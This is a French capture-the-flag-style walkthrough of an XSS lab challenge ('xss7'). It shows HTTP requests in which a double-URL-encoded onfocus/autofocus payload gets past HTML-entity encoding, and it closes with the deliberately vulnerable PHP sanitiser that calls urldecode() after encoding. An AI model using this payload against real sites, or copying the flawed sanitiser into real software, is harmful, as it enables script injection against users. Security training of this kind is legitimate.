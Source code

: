# xss7

## Exploitation

Dans cet avant dernier challenge, l'application encode maintenant les chevrons `<` et `>` ainsi que le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (1).png>)

Je renseigne ces caractères afin de mieux déterminer le traitement effectué :

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%3C%3E%22&submit=Envoyer
```

Les caractères sont ici correctement encodés par une transformation en entités HTML :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2130
Connection: close
Content-Type: text/html; charset=UTF-8



<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever&lt;&gt;&quot;" placeholder="keyword" required>
</div> 
```

![](<../../../.gitbook/assets/image (7).png>)

Je tente d'utiliser le caractère `'` à la place de `"` mais cela ne fonctionne pas. Il me faut donc trouver une payload représentée sous un autre format que les caractères filtrés. Au bout de quelques essais je tente l'encodage URL `whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522` :&#x20;

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2150
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :&#x20;

![](<../../../.gitbook/assets/image (8).png>)

## Analyse du code source

La fonction `xss_check()` effectue bien les modifications indiquées par l'auteur, à savoir la transformation en entités HTML des caractères `<`, `>` et `"`. L'injection avec le caractère `'` n'est en effet pas possible ici, car la construction du code s'effectue bien avec le double guillemet. L'injection en utilisant l'encodage URL est possible ici car l'application effectue un `urldecode()`, je ne pense pas que l'injection soit possible sans cela :thinking: :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = str_replace("\"", "&quot;", $input);
    $input = urldecode($input);
    
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
